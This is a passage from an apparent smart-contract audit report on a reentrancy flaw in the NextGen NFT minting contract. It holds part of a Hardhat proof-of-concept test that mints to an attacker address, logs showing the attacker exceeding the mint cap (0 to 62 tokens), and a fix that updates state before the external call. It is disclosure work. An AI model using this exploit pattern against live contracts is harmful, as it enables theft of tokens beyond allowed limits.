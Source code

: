 ```diff
+        _numberOfTokens: 2,
+        _maxAllowance: 0,
+        _tokenData: '{"tdh": "100"}',
+        _mintTo: attackerAddress,
+        merkleProof: ["0x8e3c1713145650ce646f7eccd42c4541ecee8f07040fc1ac36fe071bbfebb870"],
+        _delegator: signers.addr1.address,
+        _saltfun_o: 2
+      })
+
+      const balanceAfterAttack = await contracts.hhCore.balanceOf(attackerAddress);
+      console.log(`Attacker's balance after the attack: `, balanceAfterAttack);
+    });
+
     it("#mintNFTCol1", async function () {
       await contracts.hhMinter.mint(
         1, // _collectionID
```

If we run the tests with npx hardhat test we get the following logs:

```
Max Allowed to mint tokens per address:  2n
Attacker's balance before the attack:  0n
Attacker's balance after the attack:  62n
```

## Tools Used
Manual review

## Recommended Mitigation Steps
Always make sure (whenever possible) that storage variables are updated before making an external call. In this case moving the if statement (https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/hardhat/smart-contracts/NextGenCore.sol#L194C13-L198C14) above _mintProcessing function will fix this issue.

## Assessed type
Reentrancy

